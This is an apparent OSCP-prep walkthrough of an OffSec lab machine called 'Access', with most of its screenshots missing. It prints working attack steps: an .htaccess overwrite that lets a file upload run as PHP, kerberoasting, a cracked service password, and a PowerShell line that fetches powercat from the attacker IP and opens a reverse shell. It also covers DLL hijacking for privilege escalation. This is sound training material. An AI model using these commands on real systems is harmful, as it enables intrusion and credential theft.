


**Start 10:12 19-05-2025**

---
```
Scope:
192.168.102.187
```
## Recon

### Nmap

```bash
sudo nmap -sC -sV access -sT -vvvv -p- -Pn -T5 --min-rate=5000

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
80/tcp    open  http          syn-ack Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-favicon: Unknown favicon MD5: FED84E16B6CCFE88EE7FFAAE5DFEFD34
|_http-title: Access The Event
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
| http-methods: 
|   Supported Methods: POST OPTIONS HEAD GET TRACE
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2025-05-19 08:13:45Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
443/tcp   open  ssl/http      syn-ack Apache httpd 2.4.48 (OpenSSL/1.1.1k PHP/8.0.7)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
47001/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack Microsoft Windows RPC
49670/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         syn-ack Microsoft Windows RPC
49674/tcp open  msrpc         syn-ack Microsoft Windows RPC
49679/tcp open  msrpc         syn-ack Microsoft Windows RPC
49701/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Hosts: SERVER, www.example.com; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## 80/TCP - HTTP


I went ahead and used `username-anarchy` to create a username list out of them and tried to use `kerbrute` to enumerate users:


Unfortunate no matches.


This form doesn't work, so we don't have to keep testing it.

I inspect the site a bit more and find this.


This could be a **File Upload** attack.


This could however also be a **Reflected XSS** on second thought?

## File Upload Attack


This is the script that we get upon submit.


Let's get to testing.


Let's try it out by adding a XSS comment inside the picture instead.


The payload does not get triggered however confirming that XSS is not the way.

Seems like we're left with the file upload attack.

Using `gobuster` I was able to find the `/uploads` endpoint:


We find our uploaded file here, let's try to upload a malicious webshell.

Using `burp` I intercept the request:


And here I will try to add my malicious webshell.


I turned it around:


After multiple tries I still got the following:



### Overwriting .htaccess 

Frustrated I started my further enumeration online, thinking I hit a dead end.

I then found out I was on the correct path but I just had to do something I had never done before:


Apparently we can try and overwrite the `.htaccess` file by uploading our own which will then allow us to upload a `php` web or reverse shell.

```bash
echo "AddType application/x-httpd-php .pwn" > .htaccess
```
:::info
We create a new file type which we will allow via the `.htaccess` file, we should then be able to upload the file and treat it as an `php` file
:::


## Foothold
### Shell as svc_apache

We boot up a listener before uploading the file.


>[!fail]
>Unfortunately `penelope` didn't like this:
>


Since we're a `svc` account I crossed my fingers hoping we have the `SeImpersonatePrivilege` enabled.

>[!fail]
>
>Wuap wuap....

I instantly start my enumeration:


Seems there's another service account, *svc_mssql*. This LIKELY means we'll have to do some lateral movement before getting Admin privs.

## Lateral Movement

I check the handy cheatsheet:


We probably need to kerberoast here.


Let's transfer over `rubeus` and get to work!

### Kerberoasting


Nice and easy, let's try and crack it.


:::note
`john` cracks it INSTANTLY.
:::

```
svc_mssql
trustno1
```

### Password Spray


However it looks like we can't get access to `winrm`:


### RunasCs 

To circumvent this issue and get access as *svc_mssql* via our existing reverse shell we can use the following script:




Thus we have verified that we can execute commands as *svc_mssql*. We can now go ahead and create a reverse shell by uploading `powercat.ps1` in order to get a reverse shell as *svc_mssql*.

We will put the following line inside the `-Command` brackets:

```powershell
Powershell IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.185/powercat.ps1');powercat -c 192.168.45.185 -p 443 -e cmd"
```


### local.txt


## Privilege Escalation
### SeManageVolumePrivilege


Yet again no ez win?


Or isn't it?


Simply download and execute it:


Now we can write files to the `C:\` drive.

:::note
Why is this useful you say? Well because there's a shit ton of DLL's inside the `/Windows/System32` folder which we can now hijack using our own crafted reverse shell!
:::

## DLL Hijacking

We will be using the `tzres.dll` file.

:::note
I could've used any `.dll` but was too lazy to do my research so I used a proven one.
:::


>The good thing about hijacking this dll is that you can then call upon it by issuing `systeminfo`:


Eventhough it says it failed it really didn't:


### proof.txt


---

**Finished 12:28 19-05-2025**

[^Links]: [[OSCP Prep]]
